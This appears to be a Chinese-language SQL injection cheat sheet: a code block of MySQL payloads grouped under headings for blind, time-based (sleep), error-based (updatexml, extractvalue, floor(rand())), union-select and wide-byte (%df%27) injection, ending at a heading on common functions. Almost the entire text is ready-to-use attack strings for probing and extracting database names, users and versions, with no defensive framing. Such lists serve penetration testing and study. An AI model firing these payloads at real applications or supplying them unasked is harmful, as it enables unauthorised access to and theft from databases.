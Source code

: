```linux
order+by+1--+
order+by+100--+
and length(database())>=1--+
and length(database())>=100--+
and (select count(*) from admin)>0; --+
and (select count(*) from admin)>100; --+
AND id != NULL; --+
or id != NULL; --+
and length((select user()))>=1--+
and length((select database()))>=1--+
and ord(substr(database(),1,1))=64--+
and ord(substr(database(),1,1))=150--+
and if(ascii(substr((select database()),1,1))>64, 1, 0)--+

# 判断时间注入语句
and sleep(3)--+
and (() or sleep(3))--+
and (select sleep(5))--+
and ('1'=' or sleep(3))--+
and if(length(database())>0,sleep(5),1)--+
and if(length((select user()))>1,sleep(10),0)--+
and if(length((select database()))>1,sleep(10),0)--+

# 判断报错注入语句
or updatexml(1,concat(0x5e5e,version(),0x5e5e),1)--+
union select 1,1,exp(~(select*from(select user())x))--+
union select 1,1,exp(~(select*from(select database())x))--+
union select updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
union select updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select user()),'~'))--+
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select database()),'~'))--+
union select count(*),1, concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a--+

# 联合查询注入，要让前面的参数不正确，这个才显示
union+select+1--+
union+select+1,2,3,4,5,6,7,8,9--+
union select @@version --+
union select user() --+
union select database()--+

# 宽字节注入
%a1%27 or 1--+
%df%27 and 1--+
%df%27 or()or 0
%a1%27 order+by+1--+
%df%27 or 0 union select 1,group_concat(schema_name) from information_schema.schemata--+
```


## 常用函数整合语句
